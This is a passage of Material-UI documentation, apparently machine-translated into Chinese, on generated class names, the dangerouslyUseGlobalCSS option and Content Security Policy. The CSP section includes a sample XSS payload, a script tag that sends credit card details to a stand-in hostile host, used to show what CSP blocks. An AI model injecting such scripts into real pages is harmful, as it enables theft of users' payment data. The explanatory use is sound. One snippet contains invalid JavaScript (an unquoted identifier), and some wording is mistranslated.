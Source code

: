 - 在 **生产**，类名称为： `.jss5pbwdt`，遵循以下逻辑：

```js
const productionPrefix = 'jss';
const identifier = 5pbwdt;

const className = `${productionPrefix}-${identifier}`;
```

如果您不喜欢此默认行为, 您可以更改它。 JSS依赖于[类名生成器](https://cssinjs.org/jss-api/#generate-your-class-names)的概念。

## 全局CSS

我们提供了一个选项，使用 [`dangerouslyUseGlobalCSS`](/css-in-js/api/#creategenerateclassname-options-class-name-generator) 选项使类名称为 **deterministic**。 打开后, 类名将如下所:

- 开发： `.AppBar-root`
- 产量： `.AppBar-root`

⚠️ **使用时要谨慎 `dangerouslyUseGlobalCSS`。** 我们提供此选项作为原型设计的逃生舱口。 依赖于它的代码在生产中运行有以下含义:

- 全局CSS本质上是很弱的 人们使用严格的方法, 如 [BEM](http://getbem.com/introduction/) 来解决问题。
- 很难跟踪`classes`API的更改。

⚠️当使用 `dangerouslyUseGlobalCSS` 独立（没有Material-UI）时，您应该使用 `选项` 参数命名样式表：

```jsx
// Hook
const useStyles = makeStyles(styles, { name: 'button' });

// Styled-components
const Button = styled(styles, { name: 'button' })(ButtonBase);

// Higher-order component
const Button = withStyles(styles, { name: 'button' })(ButtonBase);
```

## 内容安全政策（CSP）

### 什么是CSP，为什么它有用？

基本上，CSP通过要求开发人员将其资产从中检索的源列入白名单来缓解跨站点脚本（XSS）攻击。 此列表作为服务器的标头返回。 例如，假设您有一个托管在` https://example.com`的网站 CSP头`default-src：'self';`将允许位于`https://example.com/*`的所有资产并否认所有其他人。 如果您的网站的某个部分容易受到XSS的影响而未显示未转义的用户输入，则攻击者可以输入以下内容：

    <script>
      sendCreditCardDetails('https://hostile.example');
    </script>
    

此漏洞允许攻击者执行任何操作。 但是，使用安全的CSP标头，浏览器将不会加载此脚本。

您可以在 [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)上阅读有关CSP的更多信息。

### 如何实现CSP？
